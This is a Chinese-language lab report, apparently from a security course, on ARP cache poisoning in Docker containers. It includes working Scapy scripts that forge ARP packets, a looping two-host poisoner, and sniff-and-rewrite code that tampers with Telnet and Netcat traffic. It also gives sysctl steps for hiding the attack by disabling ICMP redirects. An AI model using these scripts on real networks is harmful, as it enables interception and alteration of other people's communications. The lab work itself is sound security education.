# ARP缓存中毒攻击实验
## 实验主题
• ARP 协议
• ARP 缓存中毒攻击
• 中间人攻击
• Scapy 编程
## 概述
1. ARP缓存中毒攻击原理：攻击者持续向目标机器发送伪造的ARP Reply，篡改目标机器的ARP缓存表，使目标机器讲发往正常主机的数据包发给了攻击者机器
2. 攻击分类
   1. 仅欺骗受害者指向攻击者
      1. 流量走向：受害者->攻击者->网关（正常出）
      2. 用途：嗅探受害者上行流量
   2. 同时欺骗受害者和网关指向攻击者
      1. 流量走向：受害者<->攻击者<->网关
      2. 用途：完整拦截，篡改，双向嗅探
   3. 欺骗受害者指向不存在的mac地址
      1. 流量走向：流量进入黑洞
      2. 用途：局域网拒绝服务
3. 攻击流程：侦查->投毒->维持->利用->清理
   
   2. 侦查（信息收集）：攻击者首先要了解目标网络的结构
      IP地址：通过ARP扫描->确定攻击目标
      MAC地址：通过ARP响应->构造伪造数据包
      网关地址：路由表/扫描->劫持外网流量
      操作系统：TTL值分析->选择合适的攻击方式
   3. 投毒：攻击者伪造ARP响应包发送给受害者
         
   4. 维持：ARP缓存有生存时间（TTL），需要持续发送伪造包
      
   5. 利用：
   6. 清理：攻击完成后需要回复恢复的ARP缓存避免被发现
     
4. 常用工具
   1. arpspoof：轻量命令行适合脚本化攻击
   2. ettercat：集成ARP欺骗，协议解析，流量篡改
   3. bettercat：现代替代，支持交互式模块、WiFi/蓝牙/HTTP 劫持
   4. Scapy：底层构造，适合定制化POC或自动化武器化
## 实验环境搭建
1. 容器的命令和设置与之前一样，不再赘述
2. 攻击者容器
   1. 共享文件夹，与之前一样，不再赘述
   2. 特权模式：为了在运行时能够修改内核参数（使用sysctl），例如开启IP转发等，容器需要被赋予特权，需要在Docker Compose文件中包含`privileged: true`条目
3. 嗅探数据包：本实验中需要通过查看数据包的去向进行调试
   1. 嗅探方法一：在容器中运行tcpdump，只需要找出要嗅探的接口名称然后执行命令`tcpdump -i 接口名称 -n`【注意：在容器内部，由于 Docker 创建的隔离，当我们在一个容器内运行 tcpdump 时，我们只能嗅探进出该容器的数据包，而不能嗅探其他容器之间的数据包。然而，如果容器在网络设置中使用了 host 模式，则可以嗅探其他容器的数据包。】
   2. 嗅探方法二：在 VM 上运行 tcpdump。如果我们在虚拟机上运行 tcpdump，则不会受到容器的限制，并且可以嗅探所有容器之间传递的数据包。与容器不同，VM 中网络接口名称有所不同。在容器中，每个接口名通常以 eth 开头；而在 VM 中，由 Docker 创建的网络接口名称以 br- 开头，后面跟着网络的 ID。【可以通过ip address命令获取接口名称】
   3. 嗅探方法三：在 VM 上运行 Wireshark 来嗅探数据包。类似于 tcpdump，我们需要选择要嗅探的接口。
## 实验内容
1. 任务一：ARP 缓存中毒攻击
   1. 任务a：伪造 ARP 请求
      1. 信息收集：
         容器刚启动时容器间还没有通信所以ARP缓存表还是空的 
         需要手动分别ping一下容器A和容器B来获取二者的MAC地址 
      2. 代码实现：
         ```python
         from scapy.all import *
         pkt=Ether(src="02:42:0a:09:00:69")/ARP(op=1,psrc="10.9.0.6",hwsrc="02:42:0a:09:00:69",pdst="10.9.0.5",hwdst="ff:ff:ff:ff:ff:ff")
         sendp(pkt,iface="eth0",verbose=0)
         ``` 
      3. 攻击验证：
         1. 在攻击者容器M中运行脚本
         2. wireshark抓包验证：成功抓到了M发送的伪造ARP请求
         3. 在用户容器A中查看ARP缓存表发现成功将B的ip地址映射到了M的MAC地址【不过还有个小瑕疵，由于刚刚ping了A一下，所以A的ARP缓存表中M的ip地址也指向M的MAC地址不过不影响攻击操作，因为需要ip-MAC地址映射都是指定IP地址映射MAC地址所以两ip地址共同指向一个MAC地址不会产生冲突】
   2. 任务b：伪造 ARP 响应
      1. 信息收集：
         A：10.9.0.5  02:42:0a:09:00:05
         B：10.9.0.6  02:42:0a:09:00:06
         
      2. 代码实现
         ```python
         from scapy.all import *
         pkt=Ether(dst="02:42:0a:09:00:05")/ARP(op=2,psrc="10.9.0.6",hwsrc="02:42:0a:09:00:69",pdst="10.9.0.5",hwdst="02:42:0a:09:00:05")
         sendp(pkt,iface="eth0",verbose=0)
         ``` 
      3. 攻击验证一：B 的 IP 地址已经存在于 A 的缓存中 
         1. 在攻击者容器M中运行脚本
         2. wireshark抓包验证：成功抓到了M发送的伪造ARP响应
         3. 在用户容器A中查看ARP缓存表发现成功将之前的条目覆盖，将B的ip地址映射到了M的MAC地址
      4. 攻击验证二：B 的 IP 地址不存在于 A 的缓存中
         1. 在攻击者容器M中运行脚本
         2. wireshark抓包验证：成功抓到了M发送的伪造ARP响应
         3. 在用户容器A中查看ARP缓存表发现没有出现B的ip地址与M的MAC地址的映射条目
         4. 原因：ARP 响应必须是对请求的回复，否则大多数操作系统会忽略未经请求的响应
   3. 任务c：伪造 ARP 免费消息
      1. 代码实现
         ```python
         from scapy.all import *
         pkt=Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1,psrc="10.9.0.6",hwsrc="02:42:0a:09:00:69",pdst="10.9.0.6",hwdst="ff:ff:ff:ff:ff:ff")
         sendp(pkt,iface="eth0",verbose=0)
         ``` 
      2. 攻击验证
         1. 先删除容器A的ARP缓存表中已有的10.9.0.6的条目
         2. 在攻击者容器M中运行脚本
         3. wireshark抓包验证：成功抓到了M发送的伪造ARP免费请求
         4. 在用户容器A中查看ARP缓存表攻击成功
2. 任务二：使用 ARP 缓存中毒攻击在 Telnet 实施中间人攻击
   1. 攻击拓扑
       
   2. 攻击流程
      1. ARP缓存投毒 
      2. 建立Telnet连接
      3. 中间人攻击
      4. 维持连接
       
   3. 具体实验操作
      1. 发起ARP缓存中毒攻击（不断地向目标发送伪造的ARP请求，防止缓存条目过期或者被刷新）
         1. 代码实现:
            ```python
            from scapy.all import *
            import threading
            import time
            #告诉B我是A
            pkt_to_B=Ether(src="02:42:0a:09:00:69",dst="ff:ff:ff:ff:ff:ff")/ARP(op=1,psrc="10.9.0.5",hwsrc="02:42:0a:09:00:69",pdst="10.9.0.6",hwdst="ff:ff:ff:ff:ff:ff")
            #告诉A我是B
            pkt_to_A=Ether(src="02:42:0a:09:00:69",dst="ff:ff:ff:ff:ff:ff")/ARP(op=1,psrc="10.9.0.6",hwsrc="02:42:0a:09:00:69",pdst="10.9.0.5",hwdst="ff:ff:ff:ff:ff:ff")
            #间隔5秒持续发送，维持攻击
            def attack_A(pkt_to_A):
               sendp(pkt_to_A,loop=1,inter=5,iface="eth0",verbose=0)
            def attack_B(pkt_to_B):
               sendp(pkt_to_B,loop=1,inter=5,iface="eth0",verbose=0)
            t1=threading.Thread(target=attack_A,args=(pkt_to_A,))
            t2=threading.Thread(target=attack_B,args=(pkt_to_B,))
            t1.start()
            t2.start()
            t1.join()
            t2.join()
            ```
         2. 验证 
            1. wireshark抓包查看成功实现每5秒就分别给A和B发伪造的ARP请求包
            2. 分别查看A和B的ARP缓存表A和B均已被投毒
      2. 测试
         1. 关闭主机M的IP转发功能`sysctl net.ipv4.ip_forward=0`
         2. 在主机A和B之间互相ping对方，观察结果
            1. 在A中ping主机B在B中ping主机A发现都没收到响应包
            2. 查看wireshark中的抓包结果只有Echo Request包没有Echo Reply包。
            查看详细信息发现A和B之间的ping包确实全都发送给了M
         3. 原因：
            1. 正常情况下的ping流程
               ```
                  A发生发送ICMP请求包给B
                        |
               交换机根据B的MAC地址将icmp请求包转发给B
                        |
               B收到请求包后发送icmp响应包给A
                        |
                     通信成功
               ``` 
            
            2. ARP缓存中毒后（M关闭了IP转发功能）的ping流程
               ```
               A向目标10.9.0.6发送icmp请求包
                        |
               但A的ARP缓存表中10.9.0.6对应M的MAC地址
                        |
               交换机根据MAC地址将icmp请求包转发给M
                        |
               M关闭了IP转发功能，不会转发任何包，因此会将A的icmp请求包丢弃
                        |
               B没有收到A的icmp请求包就不会发送icmp响应包
                        |
               A永远收不到响应，通信失败
               ``` 
            
      3. 开启IP转发
         1. 开启IP转发功能`sysctl net.ipv4.ip_forward=1`
         2. 重复2中的测试结果
            1. 发现这次双方成功通信但是有ip转发提示
            2. wireshark抓包结果有Echo Request和Echo Reply，多出来了Redirect重定向包
         3. 原因
            1. 当M主机收到A的icmp请求包时发现A的通信目标B与A处于同一子网中，M认为可以有更好的路由路径（A--B而不是A-M-B）所以就会发送icmp重定向包告诉A下次可以直接发送给B
            2. 说明攻击虽然成功但是被系统检测到异常可以禁用ICMP重定向或者采用更隐蔽的攻击术
         4. 关闭M的icmp重定向功能：`sysctl net.ipv4.conf.eth0.send_redirects=0`
         5. 验证：在A主机上ping主机B发现这次不再出现icmp重定向提示
            wireshark抓包查看，M确实只进行IP转发，不再发送icmp重定向 
      4. 实施中间人攻击
         1. Telnet的行为：
            1. 当在客户端窗口输入一个字符时就会生成一个单独的TCP数据包，但当输入速度很快时，几个字符可能会在一个TCP数据包中被发送，因此客户端给服务端的TCP数据包的有效载荷通常只包含一个字符
            2. 在客户端窗口显示的内容不是由在客户端键入呈现的，而是键入的字符发送到服务端，由服务端回弹给客户端从这客户端窗口显示。因此如果客户端和服务端连接断开那么无论客户端输入什么，窗口中都不会显示内容，直到连接恢复。
            3. 攻击者如果在这个过程中将客户端发送给服务端的TCP数据包中有效载荷中的字符修改为Z，再发送给服务端，那么无论客户端输入什么，都只会在窗口上显示Z
         2. 攻击背景及要求：假设A是Telnet客户端，B是Telnet服务器。在A连接到B的Telnet服务器后，在A的Telnet窗口中键入的每个字符，都会生成一个TCP数据包并发送给B。我们希望拦截这个TCP数据包，并将每个输入的字符替换为一个固定字符（例如 Z）。这样无论用户在A上键入什么内容，Telnet都会始终显示Z。
         3. 攻击要点：
            1. 先开启IP转发时A和B能够建立连接，连接建立之后关闭IP转发功能使我们能够伪造数据包发送
            2. 捕获A和B之间的所有TCP包，而不捕获程序本身生成的TCP包
            3. 伪造TCP包
               1. 对A给B发送的TCP包内容的 TCP数据部分进行修改
               2. 对B给A的TCP内容不做修改
         4. 攻击实践
            1. 代码实现
               ```python
               from scapy.all import *
               A_ip="10.9.0.5"
               B_ip="10.9.0.6"
               A_hw="02:42:0a:09:00:05"
               B_hw="02:42:0a:09:00:06"
               M_hw="02:42:0a:09:00:69"
               def handle(pkt):
                  if TCP in pkt:
                     #给B的数据要修改
                     if pkt[IP].dst==B_ip and pkt[IP].src==A_ip:
                        #将截获的包中的IP层及以上部分的内容转换为字节填入新的数据包中
                        newpkt=IP(bytes(pkt[IP]))
                        #删除校验和，手动修改的校验和无效，scapy会在校验和字段缺失时自动重新计算
                        del(newpkt[IP].chksum)
                        del(newpkt[TCP].chksum)
                        #删除原始TCP层的有效载荷
                        del(newpkt[TCP].payload)
                        if pkt[TCP].payload:
                           data='Z'*len(pkt[TCP].payload.load)
                           fakepkt=newpkt/data
                           send(fakepkt,iface="eth0",verbose=0)
                        else:
                           send(newpkt,iface="eth0",verbose=0)
                     #给A的数据不修改
                     elif pkt[IP].dst==A_ip and pkt[IP].src==B_ip:
                        if pkt[TCP].payload:
                           newpkt=IP(bytes(pkt[IP]))
                           del(newpkt[TCP].chksum)
                           del(newpkt[IP].chksum)
                           send(newpkt,iface="eth0",verbose=0)
                        else:
                           send(pkt,iface="eth0",verbose=0)
               pkt=sniff(iface="eth0",prn=handle,filter="tcp and not src host 10.9.0.105")
               ``` 
            2. 结果验证
               1. 开启M的IP转发功能
               2. A与B建立Telnet连接连接建立成功
               3. 关闭M的IP转发功能
               4. 在M中开启ARP缓存投毒程序在另一个终端M中开启中间人劫持程序
               5. 在容器A中向B发送信息进行测试发现不管输入什么都会变成相应长度的Z，攻击成功
3. 任务三：使用 ARP 缓存中毒攻击在 Netcat 实施中间人攻击
   1. Netcat的行为：当主机A与主机B建立netcat连接后，在A中每键入一行数据都会被放入一个TCP数据包中发送给B，B知识显示A键入的信息
   2. 攻击要求：A主机中键入一串字符，M将该字符串修改为一串'A'之后再发送给B【注意：修改后的字符串长度要与原来一致，否则会扰乱TCP序列号，从而导致整个TCP连接失败】
   3. 具体实验操作
      1. 代码实现
         ```python
         from scapy.all import *
         A_ip="10.9.0.5"
         B_ip="10.9.0.6"
         def handle(pkt):
            if TCP in pkt:
               #A发给B的包
               if pkt[IP].src==A_ip and pkt[IP].dst==B_ip:
                  newpkt=IP(bytes(pkt[IP]))
                  del(newpkt[IP].chksum)
                  del(newpkt[TCP].chksum)
                  del(newpkt[TCP].payload)
                  if pkt[TCP].payload:
                     data='A'*len(pkt[TCP].payload.load)
                     fakepkt=newpkt/data
                     send(fakepkt,iface="eth0",verbose=0)
                  else:
                     send(newpkt,iface="eth0",verbose=0)
               #B发给A的包
               if pkt[IP].src==B_ip and pkt[IP].dst==A_ip:
                  newpkt=IP(bytes(pkt[IP]))
                  del(newpkt[IP].chksum)
                  del(newpkt[TCP].chksum)
                  if pkt[TCP].payload:
                     send(newpkt,iface="eth0",verbose=0)
                  else:
                     send(pkt,iface="eth0",verbose=0)
         pkt=sniff(iface="eth0",filter="tcp and not src host 10.9.0.105",prn=handle,verbose=0)
         ``` 
      2. 验证
         1. 开启M的IP转发功能
         2. 在B主机上使用netcat监听9090端口
         3. 在A主机上使用netcat连接B
         4. 验证连接是否成功建立连接建立成功
         5. 关闭M的IP转发功能
         6. 在M中开启ARP缓存投毒程序
         7. 在另一个终端M中开启中间人劫持程序
         8. 在容器A中向B发送信息进行测试
         9. 在容器B中查看收到的内容是否被修改修改成功，A中每键入一行字符串，B中就多出相应长度的A字符串
         10. Netcat中间人攻击成功
## 实验总结
1. 踩坑
   1. 在任务二进行ARP缓存投毒时
      ```python
      from scapy.all import *
      #告诉B我是A
      pkt_to_B=Ether(src="02:42:0a:09:00:69",dst="ff:ff:ff:ff:ff:ff")/ARP(op=1,psrc="10.9.0.5",hwsrc="02:42:0a:09:00:69",pdst="10.9.0.6",hwdst="ff:ff:ff:ff:ff:ff")
      #告诉A我是B
      pkt_to_A=Ether(src="02:42:0a:09:00:69",dst="ff:ff:ff:ff:ff:ff")/ARP(op=1,psrc="10.9.0.6",hwsrc="02:42:0a:09:00:69",pdst="10.9.0.5",hwdst="ff:ff:ff:ff:ff:ff")
      #间隔5秒持续发送，维持攻击
      sendp(pkt_to_A,loop=1,inter=5,iface="eth0",verbose=0)
      sendp(pkt_to_B,loop=1,inter=5,iface="eth0",verbose=0)      
      ``` 
      我这样写程序只能实现持续给A发包，程序进入第一个发包循环就不会再退出来去执行第二个发包循环，因此无法实现给B发包wireshark验证，确实全是给A的伪造包和A的响应包
      要想实现在一个程序中持续给A和B发包需要使用多线程
   2. 在任务2.4中验证过程中为什么在A中输入字符屏幕没有回显，过了一段时间发现连接被断开
      B收到数据后会发送给A两个包
         ACK包（没有负载数据）：确认收到数据
         Echo包（有负载数据）：把A输入的数据回显给A 
      在程序中应该直接将截获的ACK包直接转发给A
2. 问题与思考
   1. 为什么我在使用免费ARP请求进行ARP缓存投毒时没能成功（原来条目不存在，投毒后条目依然不存在）构造的免费ARP请求包成功发送了，在目标容器A中使用tcpdump监听也能嗅探到伪造的免费ARP请求包
      推测原因：arp_acccept内核参数
      Linux内核的应该关键参数，控制着系统对免费ARP的处理策略
         arp_accept=0（默认值）：免费ARP只能更新已经存在的条目
         arp_accept=1：免费ARP可以为未知IP地址创建新的条目 
      检验：检查arp_accept设置确实为0`sysctl net.ipv4.conf.eth0.arp_accept`
      修正：在/etc/sysctl.conf文件末尾添加条目`net.ipv4.conf.eth0.arp_accept=1`然后加载配置使其生效`sysctl -p`但现实这是只读文件不允许我们修改【Docker 容器默认与宿主机共享同一个内核，为了安全起见，容器内对 /proc/sys 下的内核参数通常是只读的，禁止容器内部直接修改】
      解决方法：在docker-compose.yml文件中将用户容器也添加上特权条目重启容器，进入容器A验证这次可以修改成功
   2. 禁用icmp重定向会影响IP转发功能吗
      解答：不会
      原因：IP转发功能决定了是否转发数据包，icmp重定向功能决定了是否告知主机有更好的路径，二者是两个不同的功能
      对比：
         开启icmp重定向功能（默认）时：
         关闭icmp重定向功能时：  
   3. 在中间人攻击实验中（任务2.4），构造新的数据包时只将截获的数据包中的IP层及以上部分复制给了新的数据包，而丢弃了IP层以下部分，这样做之后不需要再手动添加丢弃的部分吗
      解答：不需要
      原因：scapy的send()函数在发送数据包时会检查数据包是否有以太网层，如果没有，会根据路由表自动添加合适的以太网头，设置正确的源MAC地址（发送接口的MAC地址） ，设置正确的目标MAC地址（根据ARP缓存表查询目标IP的MAC地址）
   4. 为什么在任务2.4验证过程中数据包的延迟很严重
       解答：
          1. 逐包处理与校验和计算，脚本对每个数据包都进行IP(bytes(pkt[IP]))复制并删除chksum让Scapy重算，这些操作对每个数据包都带来了额外的计算开销。
          2. 在没有攻击的正常情况下，A与B的通信是直连的：
            路径：Host A ↔ Switch ↔ Host B
            实施MITM攻击后，数据包走了更长的路径：
            路径：Host A → Switch → Host M  → Switch → Host B每个数据包都需要两次经过网络线路和交换机处理。虽然局域网内的这个延迟可能只有几毫秒（ms），但在逐个字符的交互中，这种额外的延迟会变得明显。
          3. TCP栈的连锁反应：
             1. ACK延迟确认：TCP协议为了提高效率，通常不会对每个数据包都立即回复ACK，而是会等待一小段时间（通常40-200ms），希望能捎带发送数据或合并多个ACK。你的脚本修改了数据包，可能会干扰接收端对数据接收的判断，导致它等待更久才发ACK，从而增加了A看到回显的往返时间。
             2. 如果处理延迟超过了内核TCP栈的容忍范围，B可能会认为包丢了，从而触发TCP重传。这会显著增加延迟，并可能导致连接短暂卡顿。
3. 知识点
   1. ARP协议
      1. 作用：工作在数据链路层和网络层之间，负责将IP地址转换为MAC地址
      2. 主机A（192.168.2.10）想要与主机B（192.168.2.20）通信但不知道主机B的MAC地址的标准交互流程：
         ```
                  主机A广播ARP请求（Who has 192.168.2.20? Tell 192.168.2.10）
                         |
             主机B收到求情后单播ARP响应（192.168.2.20 is at AA:BB:CC:DD:EE:FF） 
                         |
             主机A接收到响应后将主机B的MAC地址记录在本地ARP缓存表中 
                         |
             主机A以后想要和主机B通信直接查表   
         ``` 
      3. 在不同场景下是否需要目标主机的MAC地址：
         1. 在同一局域网内（目标存在）：
         ```
         主机A（10.9.0.5）想与主机B（10.9.0.6）通信，但不知道B的MAC地址
                     |
         主机A在该局域网内发送广播请求
                     |
         主机B发送ARP响应告知A自己的MAC地址
                     |
         主机A知道了主机B的MAC地址才能给主机B发送数据包
         ``` 
         
         2. 在不同网段（需要网关）
         ```
         主机A广播ARP请求询问网关（10.9.0.1）的MAC地址
                      |
         网关收到ARP请求后单播ARP响应给主机A，告知自己的MAC地址
                      |
         主机A收到网关的MAC地址后将数据包发送给网关
                      |
         网关将数据包转发出去最终到达主机B
         ``` 
         
         3. 同一局域网（目标不存在）
         ```
         主机A广播ARP请求
                |
         目标主机（10.9.0.99）不存在
                |
         ARP请求超时主机A未收到回复
                |
         系统报错Destination Host Unreachable
         ```
         
      4. 免费ARP（Gratuitous ARP）
         1. 概念：一种特殊的ARP请求包，主机为了通知网络中其他设备自己的IP地址与MAC地址的映射关系，而不是为了请求某个IP地址的MAC地址
         2. 特点：
            1. 操作码：是1（ARP请求），不是2（ARP响应）
            2. 源IP地址：等于目标IP地址，都是发送者自己的IP地址
            3. 目标MAC地址：广播地址（ff:ff:ff:ff:ff:ff）
            4. 是否期望响应：不期望响应
            5. 作用：主动告知自己的IP-MAC映射
         3. 构造示例： 
            ```python
               from scapy import *
               gratuitous_arp=ARP(
                  op="1",
                  psrc="192.168.2.10",
                  hwsrc="aa:bb:cc:dd:ee:ff",
                  pdst="192.168.2.10",
                  hwdst="ff:ff:ff:ff:ff:ff"
               )
               send(gratuitous_arp)
            ```
         4. 局域网中的其他网络设备收到免费ARP请求包后的做法：
            ```
                      检查ARP请求包
                           |
               发现请求包中的psrc==pdst，识别为免费ARP请求
                           |
               将该请求包中的IP——MAC映射记录到本地ARP缓存表中
                           |     
                       不发送响应
            ```
         5. 用途（合法）
            1. ip地址冲突检测：当主机获得应该信ip时会先发送免费arp询问网络中是否有其他主机使用该ip，如果收到响应就说明存在IP地址冲突
            2. 更新其他主机的arp缓存：当主机MAC地址发生变化（如更换网卡），可以发生免费arp通知网络中的其他设备更新ARP缓存表，避免通信中断
            3. 高可用性/故障转移：当路由器主备切换时，备份路由器会发发送免费ARP通知交换机和其他设备将流量切换到新的mac地址
         6. 免费ARP滥用 
            1. 概念：攻击者利用免费ARP的特性，向网络中发送伪造的免费ARP包，污染网络站其他设备的ARP缓存，从而实现中间人攻击，DoS攻击等
            2. 攻击原理：免费ARP包不需要认证，任何设备都可以发送免费ARP包声称自己是某个IP的拥有者，接收方收到后会无条件信任并更新自己的ARP缓存表
            3. 滥用方式：
               1. ARP缓存投毒（ARP Spoofing）：
                  1. 攻击者声称自己是网关（192.168.2.1）的拥有者
                  2. 构造示例：
                     ```python
                        from scapy import *
                        fake_arp=ARP(
                           op=1,
                           psrc="192.168.2.1",
                           hwsrc="aa:bb:cc:dd:ee:ff",
                           pdst="192.168.2.1",
                           hwdst="ff:ff:ff:ff:ff:ff"
                        )
                        send(fake_arp,loop=1,intecr=5)      #循环发生每5秒发一次
                     ```
                     需要循环发送的原因：ARP缓存条目存在生存时间（不同操作系统不同），如果攻击者只发送一次免费ARP伪造包，该缓存条目被覆盖或过期就会导致攻击失败
                  3. 攻击成功的后果：该局域网中的所有网络设备都会把发给网关的流量发送给攻击者
               2. DoS攻击：攻击者发送大量免费ARP包，是目标设备的ARP缓存溢出或不断更新，最终导致网络中断
               3. Mac泛洪攻击：攻击者使用不同的伪造MAC地址发送免费ARP导致交换机的MAC地址表溢出，迫使交换机功能降级为集线器，广播所有流量 
            4. 为什么免费ARP易被滥用
               1. 无认证机制：任何人都可以发送免费ARP
               2. 无条件信任：操作系统默认信任收到任何ARP包
               3. 广播特性：免费ARP包是广播的，可以影响局域网中的所有设备
               4. 无合法性检查：不会验证发送者是否是某个IP的合法拥有者
      5. 协议缺陷（谁回应就信谁）
         1. 无状态：收到ARP Reply时不验证是否对应自己发过的Request
         2. 无认证：任何设备都可以宣称我是某个IP
         3. 信任覆盖：后续的Reply会直接覆盖缓存表中的旧记录即使旧记录仍在有效期
         4. 免费ARP滥用
   2. ARP缓存中毒攻击成功的关键
      1. 攻击者和目标必须在同一局域网
      2. 需要知道目标的IP和MAC地址
      3. 需要持续发送伪造包维持攻击
      4. 攻击完成后需要清理痕迹
   3. Scapy中不同层的有效载荷字段名
      【ICMP层的data字段也可以携带数据】